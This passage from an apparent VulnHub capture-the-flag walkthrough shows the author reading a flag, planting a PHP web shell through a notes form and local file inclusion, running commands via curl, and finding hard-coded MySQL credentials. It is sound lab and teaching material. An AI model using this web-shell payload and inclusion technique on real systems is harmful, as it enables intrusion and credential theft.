 ```bash

Hit me up on irc.freenode.net in #vulnhub with your thoughts (Peleus) or follow me on twitter @0x42424242

Flag: a95fc0742092c50579afae5965a9787c54f1c641663def1697f394350d03e5a53420635c54fffc47476980343ab99951018fa6f71f030b9986c8ecbfc3a3d5de


</HTML>
root@kali:~#
```

And bingo. _Technically_ we finished what the original goal was, though, re-reading the original entry on Vulnhub, I was almost certain this was not the only way to get to this. Maybe a bug on the original release of the VM? I don't know.
From here on onwards, the goal was no longer to read `/root/flag.txt`. No, we now have to root this VM :)

## gaining shell

With the focus slightly shifting, and our ability to read files off the file system, the next natural step was to attempt to get command execution on the VM. Remembering the `notes.php` file, I decided to try include `/tmp/note.txt`. This worked just fine and echoed my testing attempts from earlier. So with this information, I simply went back to `notes.php`, entered: `<?php print_r(shell_exec($_GET['c'])); ?>`, and submitted the form. Next I edited the cookiejar to include `/tmp/notes.txt`, and proceeded to test my command execution:

```bash
root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php?c=id -c cookies -b cookies
[snip]
</CENTRE>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</HTML>
root@kali:~#
```

Yay :) With this confirmed working, I modified the command exec request slightly so that commands with potentially strange characters are correctly encoded etc:

```bash
curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php?c=$(echo -n “ls -lah” | python -c "import urllib, sys; print urllib.quote(''.join(sys.stdin));") -c cookies -b cookies
```

## becoming jack
With command execution, it was easy to start enumerating as much as possible about the VM. At least as much as the `www-data` user has access to, which is generally quite a lot.

I looked at the source files for the website out of curiosity about the filtering etc that was going on. I stumbled upon some MySQL credentials in `login.php`:

```php
// mysql_connect("127.0.0.1", "Jack", "zgcR6mU6pX") or die ("Server Error"); I'll change this back once development is done. Got sick of typing my password.
mysql_connect("127.0.0.1", "www-data", "website") or die("Server Error");
```

